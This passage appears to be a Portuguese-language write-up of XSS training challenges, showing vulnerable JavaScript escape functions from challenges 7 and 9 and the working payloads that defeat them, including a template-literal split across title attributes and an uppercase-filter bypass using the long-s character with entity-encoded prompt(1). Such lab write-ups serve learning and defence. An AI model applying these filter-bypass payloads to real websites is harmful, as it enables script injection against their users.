 Explicação:
A função divide o input pelo caractere `#`, usando a primeira parte como `action` e a segunda como JSON.  
Somente quando a chave `"action"` está presente o formulário é submetido, caso contrário o fluxo vai para o `else`.  
A validação contra esquemas indesejados ocorre apenas depois que o `action` já foi definido, o que permite a exploração.

## Desafio 7

Código:
````
function escape(input) {
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
}
````
Resolução funcional:
````
"> <script>`#${prompt(1)}#`</script>
````
<img width="2340" height="1172" alt="image" src="https://github.com/user-attachments/assets/24bc143f-d51b-4875-935d-ee6e2a073104" />

Explicação:
O código limita a entrada a 12 caracteres, o que impede instruções muito longas.  
Cada `#` inserido gera um novo elemento `<p>`, acrescentando o texto correspondente.  
Utilizando interpolação de template literals em JavaScript, o código passado dentro de `${}` é interpretado, permitindo a exploração.

#### Desafio 9

Código:
````
function escape(input) {
    // filter potential start-tags
    input = input.replace(/<([a-zA-Z])/g, '<_$1');
    // use all-caps for heading
    input = input.toUpperCase();

    // sample input: you shall not pass! => YOU SHALL NOT PASS!
    return '<h1>' + input + '</h1>';
}  
````
Resolução funcional:
````
<ſvg/onload=&#112;&#114;&#111;&#109;&#112;&#116;&#40;&#49;&#41;>
````

<img width="1147" height="496" alt="Captura de Tela 2025-08-31 às 17 16 26" src="https://github.com/user-attachments/assets/2dc575ee-74e3-4747-b0e3-dadab9fec305" />
